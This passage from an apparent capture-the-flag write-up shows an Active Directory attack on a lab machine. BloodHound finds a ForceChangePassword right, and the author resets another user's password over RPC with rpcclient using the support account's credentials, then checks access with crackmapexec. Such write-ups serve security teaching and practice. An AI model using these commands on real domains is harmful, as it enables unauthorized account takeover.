 I loaded all the files into Bloodhound. In the top left, I searched for
support, and checked out the node info. There was one item listed under “First
Degree Object Control”:

![image-20200608170323022](https://0xdfimages.gitlab.io/img/image-20200608170323022.png)

When I click the “1”, I can see that support has “ForceChangePassword” on
AUDIT2020:

![image-20200608170401907](https://0xdfimages.gitlab.io/img/image-20200608170401907.png)

### Password Reset over RPC

There’s a somewhat famous post by Mubix about [resetting Windows passwords
over RPC](https://room362.com/post/2017/reset-ad-user-password-with-linux/).
I’ll use the command `setuserinfo2`:

    
    
    rpcclient $> setuserinfo2
    Usage: setuserinfo2 username level password [password_expired]
    result was NT_STATUS_INVALID_PARAMETER
    

The blog says to use 23 as the level.

If I reset with something that doesn’t match the password policy, it
complains:

    
    
    rpcclient $> setuserinfo2 audit2020 23 '0xdf'
    result: NT_STATUS_PASSWORD_RESTRICTION
    result was NT_STATUS_PASSWORD_RESTRICTION
    

If it succeeds, silence in return:

    
    
    rpcclient $> setuserinfo2 audit2020 23 '0xdf!!!'
    

In case I want to just do this from the command line, it can be run as:

    
    
    root@kali# rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192 -c 'setuserinfo2 audit2020 23 "0xdf!!!"'
    

### Check Creds

On changing the creds, I can now authenticate as audit2020:

    
    
    root@kali# crackmapexec smb 10.10.10.192 -u audit2020 -p '0xdf!!!'
    SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
    SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:0xdf!!! 
    